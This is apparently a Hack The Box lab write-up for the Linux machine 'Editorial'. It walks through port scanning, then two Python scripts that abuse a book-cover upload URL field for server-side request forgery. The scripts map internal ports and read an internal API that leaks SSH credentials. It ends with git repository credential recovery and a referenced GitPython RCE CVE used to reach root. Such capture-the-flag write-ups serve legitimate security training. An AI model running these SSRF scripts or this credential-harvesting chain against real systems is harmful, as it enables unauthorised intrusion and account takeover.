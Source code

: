 
![Logo](https://github.com/user-attachments/assets/f0778b7a-f98d-4de2-a60c-d82baf18432a)


---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [Lanz](https://app.hackthebox.com/users/73707)         | [Hack The Box](https://www.hackthebox.com/)     | Easy           | Linux   |

---









- I start with a scan of the open ports,
    
    ```bash
    nmap -p- -vvv -sS --min-rate 2000 -Pn 10.10.11.20 -oG scan
    ```
    
    ![image](https://github.com/user-attachments/assets/0530e77d-29dc-41d4-87a3-feea64bb1e37)

    
- I continue with a scan of the versions and technologies that are running on the open ports that we have found
    
    ```bash
    nmap -p22,80 -sCV 10.10.11.20 -oN ports
    ```
    
    ![image 1](https://github.com/user-attachments/assets/1d1e8a64-f418-4b6d-9027-69f585b678bb)

    
- I found the domain `editorial.htb` and add it to the file in the `/etc/hosts` file
- I look at what technologies they are using on the website.
    
    ```bash
    whatweb 10.10.11.20 
    whatweb editorial.htb
    ```
    
    ![image 2](https://github.com/user-attachments/assets/52f40437-6109-4b82-afe6-aecfee5e6e3d)

    
    ![image 3](https://github.com/user-attachments/assets/dc563456-6284-407d-8252-0e996f45c85e)

    
- Browsing the web I find a page that allows us to upload a file. I can upload files but they are not interpreted.
    
    ![image 4](https://github.com/user-attachments/assets/83588bc1-0929-4f7f-815a-c9f983b3afdd)

    
    ![image 5](https://github.com/user-attachments/assets/1cd5b645-0cae-45b8-8033-148df6c85d4c)

    
- As I see that the url returned changes depending on whether the file has been uploaded or not, I decide to perform a scan in case it has open ports that are not accessible from the outside.
    
    ![image 6](https://github.com/user-attachments/assets/453b8506-cddc-4040-839f-632695a3d1f3)

    
    ![image 7](https://github.com/user-attachments/assets/3560b871-99e0-40d6-a8b9-ffa6c5ac0d1c)

    
- I create a script to automate the recognition and to show me the open ports according to the length of the response.
    
    ```bash
    #!/usr/bin/python3
    import requests
    import os
    import signal
    import time
    from pwn import *
    
    def def_handler(sig, frame):
    	print("\n\n[!]Saliendo....\n")
    	sys.exit(1)
    
    signal.signal(signal.SIGINT, def_handler)
    
    def scanPorts():
    	burp0_url = "http://editorial.htb:80/upload-cover"
    	burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0", "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Content-Disposition": "inline", "Accept-Encoding": "gzip, deflate, br", "Content-Type": "multipart/form-data; boundary=---------------------------134859763814168705221183954404", "Origin": "http://editorial.htb", "Connection": "keep-alive", "Referer": "http://editorial.htb/upload"}
    	openPorts = ""
    	p2 = log.progress("Ports open")
    	p1 = log.progress("Scanning port")
    	for port in range(1, 65535):
    		burp0_data = f"-----------------------------134859763814168705221183954404\r\nContent-Disposition: form-data; name=\"bookurl\"\r\n\r\nhttp://127.0.0.1:{port}\r\n-----------------------------134859763814168705221183954404\r\nContent-Disposition: form-data; name=\"bookfile\"; filename=\"\"\r\nContent-Type: application/octet-stream\r\n\r\n\r\n-----------------------------134859763814168705221183954404--\r\n"
    		response = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
    		lon = len(response.text)
    		p1.status(port)
    		if (lon != 61):
    			if (openPorts == ""):
    				openPorts = port
    			else:
    				openPorts += f",{port}"
    			p2.status(openPorts)
    
    if __name__ == '__main__':
    	scanPorts()
    
    ```
    
- I find that port 5000 is open internally
    
    ![image 8](https://github.com/user-attachments/assets/0eac3f3d-a355-4165-9eed-3fbe0e459279)

    
- I look at the response it gives me when attacking against that port
    
    ![image 9](https://github.com/user-attachments/assets/6ecd93b7-0ff8-4b76-a81f-9729c9f714dd)

    
- When displaying the content of the response we see that we are dealing with an API. I modify the script so that it shows us the content of the queries directly and I begin to investigate the answers of the different endpoints.
    
    ```bash
    #!/usr/bin/python3
    import requests
    import os
    import signal
    import time
    import json
    from pwn import *
    
    def def_handler(sig, frame):
    	print("\n\n[!]Saliendo....\n")
    	sys.exit(1)
    
    signal.signal(signal.SIGINT, def_handler)
    
    url = "http://127.0.0.1:5000/api/latest/metadata/messages/authors"
    
    def scanPorts():
    	burp0_url = "http://editorial.htb:80/upload-cover"
    	burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0", "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Content-Disposition": "inline", "Accept-Encoding": "gzip, deflate, br", "Content-Type": "multipart/form-data; boundary=---------------------------134859763814168705221183954404", "Origin": "http://editorial.htb", "Connection": "keep-alive", "Referer": "http://editorial.htb/upload"}
    	p1 = log.progress("URL")
    	p1.status(url)
    	burp0_data = f"-----------------------------134859763814168705221183954404\r\nContent-Disposition: form-data; name=\"bookurl\"\r\n\r\n{url}\r\n-----------------------------134859763814168705221183954404\r\nContent-Disposition: form-data; name=\"bookfile\"; filename=\"\"\r\nContent-Type: application/octet-stream\r\n\r\n\r\n-----------------------------134859763814168705221183954404--\r\n"
    	response = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
    	urlRequest = "http://editorial.htb/"+response.text
    
    	response2 = requests.get(urlRequest)
    	print(response2.text)
    
    if __name__ == '__main__':
    	scanPorts()
    
    ```
    
- When testing the endpoint authors encountered some potential credentials. I try to connect by ssh with those credentials and I get access and read the first flag
    
    ![image 10](https://github.com/user-attachments/assets/8a49c0a0-ec8f-4fca-a81e-96fd0fbdd5da)

    
    ![image 11](https://github.com/user-attachments/assets/500a15b3-c714-422e-8a88-1f7b46dc8378)

    
- I find that the user `prod`
    
    ![image 12](https://github.com/user-attachments/assets/aaf5761c-2a7e-40c6-a6f3-94e7fc280af4)

    
- When searching for files in the system I find a git repository in /opt/apps
    
    ![image 13](https://github.com/user-attachments/assets/82cffe08-1edc-449d-b66c-de6120d11801)

    
- I mount a web server on port `8000` with `python3 -m http.server` to download to my machine this repository with `git-dumper` and then with `extractor` retrieve the contents of the files in each commit.
    
    [git-dumper](https://github.com/arthaud/git-dumper)
    
    [extractor.sh](https://github.com/internetwache/GitTools/blob/master/Extractor/extractor.sh)
    
    ![image 14](https://github.com/user-attachments/assets/a9af2059-4d86-40cb-a34c-ce80058c1beb)

    
    ![image 15](https://github.com/user-attachments/assets/dd120772-498e-4306-b35a-b8113ca93dda)

    
- When I check the messages of each commit, I see `app_api/app.py` in the file I had and I find another credential with which I can switch user
    
    ![image 16](https://github.com/user-attachments/assets/11baf754-09b1-4986-81b7-8b536159729d)

    
    ![image 17](https://github.com/user-attachments/assets/95bba6b6-f125-4bf9-a0ff-f79141540b96)

    
- Looking at the commands that I can run as another user without providing a password I find that I can run as root a file
    
    ![image 18](https://github.com/user-attachments/assets/4a792ef0-2fe7-479d-9dae-2782420edc22)

    
    ![image 19](https://github.com/user-attachments/assets/11b93363-3655-454b-b40f-094d6d2ea5dd)

    
- After trying to do `python Library Hijacking` and getting nothing, I search for vulnerabilities in the clone_from function and find a `CVE` that allows `Remote Code Execution (RCE)`. Thanks to this I manage to execute a command as root, I become this user and I manage to read the second flag.
    
    https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858
    
    ![image 20](https://github.com/user-attachments/assets/011c8057-b3f0-4f02-a591-3dc5cef2cf70)

